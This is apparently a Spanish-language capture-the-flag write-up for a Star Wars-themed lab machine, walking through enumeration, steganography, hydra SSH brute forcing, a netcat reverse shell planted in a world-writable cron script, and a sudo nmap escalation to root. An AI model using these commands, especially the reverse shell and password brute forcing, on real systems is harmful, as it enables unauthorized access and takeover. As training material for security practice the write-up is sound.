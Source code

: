# Reto 4 - Star Wars
Herramientas utilizadas:
- nmap
- netcat
- cyberchef
- gobuster
- cewl
- hydra
- wget

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap <ip_mv> -sCV -Pn -p-
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-1.png" /> </p>

Encontramos que la máquina víctima tiene corriendo el servicio ssh por el puerto 22 y un servicio web por el puerto 80. En este punto procedemos a revisar la web que exporta el host.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-2.png" /> </p>

En la web encontramos dos imágenes y un texto que pudiera ser una pista **"Password you shall find".** Sin embargo, si observamos el código fuente de la web, encontramos un mensaje interesante.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-3.png" /> </p>

Tomamos el mensaje codificado en base64 y se lo proporcionamos como entrada a la herramienta ```CyberChef```. En el **recipe** de la herramienta utilizamos el decodificador base64 y convertimos de binario a decimal la salida.
```
https://gchq.github.io/CyberChef/
```
```
MDExMTAxMDAgMDExMDEwMDAgMDExMDEwMDEgMDExMTAwMTEgMDExMDEwMDEgMDExMTAwMTEgMDExMDExMTAgMDExMDExMTEgMDExMTAxMDAgMDExMDEwMDAgMDExMDAxMDEgMDExMTAwMDAgMDExMDAwMDEgMDExMTAwMTEgMDExMTAwMTEgMDExMTAxMTEgMDExMDExMTEgMDExMTAwMTAgMDExMDAxMDA=

```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-4.png" /> </p>

El resultado no es satisfactorio, no se puede encontrar alguna flag solo un simple mensaje **"thisisnothepassword"**. Sim embargo, nos queda por revisar las imágenes que se muestran en la web. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-5.png" /> </p>

Luego de ubicar las imágenes, procedemos a descargarlas con la herramienta ```wget```.
```
wget http://ip_mv/images/yoda.jpg
wget http://ip_mv/images/yoda.png
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-6.png" /> </p>

Teniendo las imágenes descargadas, utilizamos la herramienta ```steganography``` para determinar y extraer texto oculto en las imágenes mediante esteganografía.
```
https://stylesuxx.github.io/steganography/ 
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-7.png" /> </p>

Nótese que como resultado obtenemos un posible password **"babyYoda123"** que podríamos usar con algún usuario existente. Con la herramienta ```gobuster``` procedemos a realizar una búsqueda de archivos y directorios de interés en la web.
```
gobuster dir -u http://ip_mv -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .js,.txt,.php
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-8.png" /> </p>

Observamos archivos de interés como un **robots.txt** y un **users.js** que nos podría proporcionar algún usuario válido. Al acceder al contenido del archivo **users.js** encontramos dos posibles usuarios **"skywalker y han"**.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-9.png" /> </p>

En este punto contamos con un posible password y dos posibles usuarios válidos. Utilizamos la herramienta ```hydra``` proporcionando un archivo con los dos posibles usuarios y el password encontrado.
```
hydra -L users.txt -p babyYoda123 ssh://ip_mv
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-10.png" /> </p>

Encontramos que el password proporcionado pertence al usuario **han**. Dado este hallazgo, podemos acceder al host a través del servicio ssh proporcionando este usuario y el password
```
ssh han@ip_mv
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-11.png" /> </p>

Luego de acceder como el usuario **han** a la máquina víctima, encontramos un directorio interesante (**".secrets"**). Dentro de este se halla un archivo **note.txt** que contiene la primera flag del reto.
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-12.png" /> </p> 
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-13.png" /> </p>

```
flag{Anakin_is_a_cewl_kid}
```

Posteriormente listamos el contenido del archivo **/etc/passwd** para determinar posibles usuarios válidos en el host. Mediante este paso obtenemos otro posible usuario, **Darth**.
```
tail /etc/passwd
```

Anteriormente se encontró un archivo **robots.txt**. Pasamos a revisarlo y observamos que contiene una pista, nos sugiere que veamos el directorio **r2d2**

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-14.png" /> </p>

Situados en el directorio **r2d2** observamos mucha información. Utilizamos la herramienta ```cewl``` para generar una lista de palabras a partir del contenido en el directorio de la web. Esta lista de palabras nos servirá como diccionario de posibles password.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-15.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-16.png" /> </p>

```
cewl http://ip_mv/r2d2 > r2d2.txt
```

El siguiente paso sería agregar el usuario **Darth** a nuestro archivo de posibles usuarios y utilizar la herramienta ```hydra``` para dado una lista de posibles password determinar a que usuario pertenece para poder acceder al host a través del servicio ssh.
```
hydra -L users.txt -P r2d2.txt ssh://ip_mv
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-17.png" /> </p>

Como resultado obtenemos el password **tatooine** válido para el usuario **skywalker**. Procedemos a acceder a través del servicio ssh a la máquina víctima.
```
ssh skywalker@ip_mv
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-18.png" /> </p>

Dentro de la máquina como el usuario **skywalker**, accedemos al directorio **.secrets** que se encuentra en el path donde estamos ubicados. En el directorio encontramos la segunda flag del reto dentro del archivo **note.txt**

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-19.png" /> </p>

```
flag{Darth_must_take_up_the_job_of_being_a_good_father}
```

Conociendo que existe el usuario **Darth** en la máquina, accedemos a su directorio personal. Dentro del directorio **.secrets** encontramos un script en python que se ejecuta dado un tiempo. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-20.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-21.png" /> </p>

Este script tiene permisos de escritura por parte de los no propietarios, por lo que se puede reescribir. Escribimos dentro del script un comando que nos permitirá entablar una reverse shell con la máquina víctima.
```
nano evil.py
import os
os.system("nc -e /bin/bash ip_myPC 1234")
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-22.png" /> </p>

En otra terminal nos ponemos en escucha por un puerto con la herramienta ```netcat``` para recibir la reverse shell.
```
nc -lvp 1234
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-23.png" /> </p>

Dentro de la máquina como el usuario **Darth**, listamos los comandos que podemos usar como root sin proporcionar un password. Encontramos que podemos ejecutar el comando nmap como root. 
```
sudo -l
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-24.png" /> </p>

Buscamos en la pagina ```https://gtfobins.github.io/``` podemos escalar privilegios a través de la herramienta nmap con permisos de root y efectivamente, existe una vía ejecutando comandos.
```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-25.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-26.png" /> </p>

Luego de ejecutar los comandos nos convertimos en root. Accedemos al directorio de root y listamos la última flag del reto.
```
cat /root/flag.txt
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-27.png" /> </p>

```
flag {I_hope_you_liked_it_Padawam_:)}
```
